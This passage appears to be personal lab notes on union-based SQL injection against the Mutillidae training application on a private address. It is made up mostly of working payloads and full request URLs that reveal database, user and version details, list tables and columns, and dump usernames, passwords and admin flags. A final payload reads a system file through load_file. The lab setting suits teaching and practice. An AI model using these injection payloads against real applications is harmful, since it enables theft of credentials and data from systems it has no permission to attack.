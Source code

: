 We can use the results to modify the request and gain additional information
```sql
' union select 1,database(),user(),version(),5 %23
```
- %20 - URL encoded version of a space in the URL field

Payload:
```sh
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=admin%27%20%20union%20select%201,database(),user(),version(),5%23&password=adminpass&user-info-php-submit-button=View+Account+Details
```

Output:
```sh
Username=admin  
Password=adminpass  
Signature=Monkey!  

Username=owasp10  
Password=root@localhost  
Signature=5.0.51a-3ubuntu5
```

Retrieving table names
```sql
' union select 1,table_name,null,null,5 from information_schema.tables
```

Retrieving a specific table
```sql
' union select 1,table_name,null,null,5 from information_schema.tables where table_schema = "owasp10"
```
- Using the result from the database command `database()` which in this case was owasp10.

Select specific column names
```sql
' union select 1,column_name,null,null,5 from information_schema.columns where table_name = "accounts"
```

Retrieve the sensitive data 
```sql
' union select 1, username,password,is_admin,5 from accounts
```
- I've left the URL comment `%23` out of the last few payloads so make sure to leave it in the URL while going through these steps.

Payload:
```sh
http://10.0.3.5/mutillidae/index.php?page=user-info.php&username=admin%27%20%20union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=adminpass&user-info-php-submit-button=View+Account+Details
```

How to read files
```sql
' union select null,load_file("/ect/passwd"),null,null,null
```
